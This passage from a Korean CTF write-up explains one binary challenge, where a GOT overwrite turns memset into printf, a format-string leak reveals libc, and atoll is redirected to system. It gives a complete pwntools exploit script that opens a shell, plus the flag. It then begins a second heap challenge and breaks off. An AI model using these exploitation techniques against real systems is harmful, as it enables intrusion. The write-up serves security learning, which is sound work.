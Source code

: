 libc base를 얻기 위해, `memset@plt.got`를 `printf@plt`로 덮어서, FSB 취약점을 만들었다. libc leak을 수행한 후엔, `atoll@plt.got`를 `system` 함수로 덮어서 쉘을 얻었다.

### **[0x03] 익스플로잇**

```py
from pwn import *

if args.REMOTE:
    p = remote('localhost', 12008)
    libc = ELF("libc.so.6", False)
else:
    p = process('./calc', aslr=0, env={"LD_PRELOAD":"./libc.so.6"})
    libc = ELF("/usr/lib/x86_64-linux-gnu/libc.so.6", False)


# 1. memset@got <- printf@plt
payload = b'/'*0x15 + b'=+' + str(0x401100).encode()
p.sendlineafter(b">", payload)

# 2. libc leak
payload = b'%p:'*6
p.sendlineafter(b">", payload)
p.recvuntil(b":")
s = p.recvuntil(b":>", True).split(b':')
libc.address = int(s[3], 16) - 0x21ba70
log.success(f"libc base @ {hex(libc.address)}")

stack = int(s[4], 16)
log.success(f"stack @ {hex(stack)}")

# 3. atoll@got <- system
payload = b'/'*0x14 + b'=+' + str(libc.symbols['system']).encode()
p.sendline(payload)
p.sendline(b'/bin/sh')
p.interactive()
```

`INCO{Wh4t_4_N1C3_W3ath3r_15_Out_0f_!30UNd}`

## **2. KidTheFlagThief (2 solves)**

### **[0x01] 요약**

간단한 파일/디렉토리를 만들고 삭제하는 쉘 컨셉의 문제임. Off by One 취약점으로 인해 tcache chunk overlapping이 가능함.

heap 내에 파일 구조체를 덮어서 AAW/AAR을 트리거하고 스택에서 ROP하는 방식으로 해결하였음.

[문제 파일](https://github.com/brwook/binary/raw/main/2023-INC0GNITO-CTF/KidTheFlagThief.zip)

### **[0x02] 분석**

자체 파일/디렉토리 구조체를 사용했고, 연결리스트를 통해서 가상의 쉘 환경을 구현해냈다.
